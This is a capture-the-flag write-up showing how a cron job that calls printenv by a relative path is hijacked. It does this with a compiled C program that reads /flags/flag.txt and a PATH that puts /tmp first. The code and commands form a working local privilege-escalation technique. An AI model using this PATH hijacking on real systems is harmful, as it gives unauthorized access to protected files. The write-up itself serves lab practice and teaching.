 We started by exploring the directory.

![alt text](img/Screenshot%202022-12-12%20at%2012.09.51.JPG)

In the ```my_script.sh``` file, we see a relative path, that can be exploited.

We change our directory, check ```last_log```, and find out the cron job has access to flag.txt, so we redirect the calling of the function printenv to our malicious code:

```C
#include <stdio.h>
#include <stdlib.h>

int main(){
    system("cat /flags/flag.txt"); 
}
```

We compile the code with ```gcc flag.c -o printenv```. 

After that, we create an env file to change the PATH environment variable with the following content:

```export PATH="/tmp/:/command:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"```

Finally, we open ```last_log``` to get our flag.

![alt text](img/Screenshot%202022-12-14%20at%2017.33.46.JPG)